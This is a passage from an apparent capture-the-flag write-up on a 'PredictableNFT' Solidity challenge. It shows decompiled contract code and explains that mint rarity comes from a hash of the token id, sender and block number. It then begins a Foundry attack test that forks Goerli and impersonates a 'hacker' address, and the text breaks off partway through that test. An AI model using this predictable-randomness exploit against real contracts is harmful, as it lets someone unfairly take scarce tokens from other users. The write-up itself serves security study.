 ```
}

function id() public nonPayable { 
    return _id;
}

// Note: The function selector is not present in the original solidity code.
// However, we display it for the sake of completeness.

function function_selector( function_selector) public payable { 
    MEM[64] = 128;
    if (msg.data.length >= 4) {
        if (0x1249c58b == function_selector >> 224) {
            mint();
        } else if (0x4f64b2be == function_selector >> 224) {
            tokens(uint256);
        } else if (0xaf640d0f == function_selector >> 224) {
            id();
        }
    }
    fallback();
}
```

## Observation

Our objective is to always mint the superior ones . which means to mint type 3 NFTs.

Our main focus is the `mint()` fn. The first `if` statement checks wether `uint256` of `keccak256` of hash `_id, msg.sender, block.number` parameters has the last `2` digits are less than or equal to `90` if so then it checks if it’s less than or equal to `80` or not. If so then mint type `1` else mint type `2` or if none of those mint `3`. So we have to check if the unsigned int has the last 2 digits greater than `90`, only then we can mint type `3` NFTs.

## Attack

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";
import "../src/INFT.sol";
import "forge-std/console.sol";

interface INFT {
    function mint() external payable;
    function tokens(uint256 _id) external view returns (uint256);
    function id() external view returns (uint256);
}

contract PredictableNFTTest is Test {
    INFT nft;
    address hacker = address(0x1337);
    function setUp() public {
        vm.createSelectFork(
            "https://goerli.infura.io/v3/<api_key>"
        );
        vm.deal(hacker, 1 ether);
        nft = INFT(0xFD3CbdbD9D1bBe0452eFB1d1BFFa94C8468A66fC);
    }
    function test() public {
        vm.startPrank(hacker);
        uint mintedId;
```